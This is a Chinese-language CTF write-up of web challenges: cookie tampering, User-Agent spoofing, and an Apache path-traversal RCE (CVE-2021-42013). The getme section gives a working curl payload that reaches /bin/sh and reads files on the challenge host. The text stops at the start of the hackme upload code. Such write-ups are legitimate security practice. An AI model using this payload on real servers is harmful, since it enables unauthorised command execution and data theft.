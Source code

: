 # 矛盾实验室 WriteUp 模板
# Nothing
矛盾实验室

# 排名
3 名

# 解题思路
## WEB
### Power Cookie 题
1.题目是Power Cookie，提示只有admin才可以获取flag，很明显了，是通过设置cookie来登录
2.BurpSuite抓包修改
payload
  cookie: admin=1
  
### 魔法浏览器 题
1.打开页面啥功能也没有，照例查看源代码，发现提示
let ua ="\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30 \x28\x57\x69\x6e\x64\x6f\x77\x73 \x4e\x54 \x31\x30\x2e\x30\x3b \x57\x69\x6e\x36\x34\x3b \x78\x36\x34\x29 \x41\x70\x70\x6c\x65\x57\x65\x62\x4b\x69\x74\x2f\x35\x33\x37\x2e\x33\x36 \x28\x4b\x48\x54\x4d\x4c\x2c \x6c\x69\x6b\x65 \x47\x65\x63\x6b\x6f\x29 \x4d\x61\x67\x69\x63\x2f\x31\x30\x30\x2e\x30\x2e\x34\x38\x39\x36\x2e\x37\x35";
2.转码后得到
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Magic/100.0.4896.75
3.修改User-Agent即可
payload
  Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Magic/100.0.4896.75
  
### getme 题
1.打开后查看源代码有提示，
2.提示里有apache，并且有路径，怀疑是路径穿越，搜了一下发现了CVE-2021-42013
3.试了一下payload，果然是这个漏洞，然后开始找flag，一开始找错方向了，浪费了一些时间。。。
payload
  curl -v --data "echo;cat /diajgk/djflgak/qweqr/eigopl/fffffflalllallalagggggggggg" 'http://node4.buuoj.cn:26865/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
  
### hackme 题
1.源代码有/list，访问看一下
2.processes中发现重要信息，Flag在根目录，且这些文件都是go文件，还有个uptime，知道需要上传go文件来执行获取flag
3.写一个go.go，返回Sorry there doesn't seem to be a go.go.go file，说明在上传的时候会自动filename后面加上.go，那么上传go文件，内容不变，再次访问go即可得到flag
payload
package main
